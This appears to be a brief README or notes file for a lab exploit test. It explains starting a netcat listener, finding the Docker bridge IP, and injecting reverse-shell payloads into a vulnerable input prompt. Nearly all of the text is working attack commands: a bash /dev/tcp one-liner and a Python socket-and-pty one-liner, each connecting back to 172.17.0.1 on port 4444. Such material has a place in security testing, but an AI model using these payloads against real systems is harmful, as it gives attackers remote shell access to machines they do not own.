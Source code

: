 # run netcat to capture incomming reverse shell
nc -lvp <port>

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1

Use the docker ip as the <ip>

# Test exploit commands

## The exploit, run from a vulnerable input prompt
```bash
bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
```

## Python
```bash
export RHOST="172.17.0.1";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```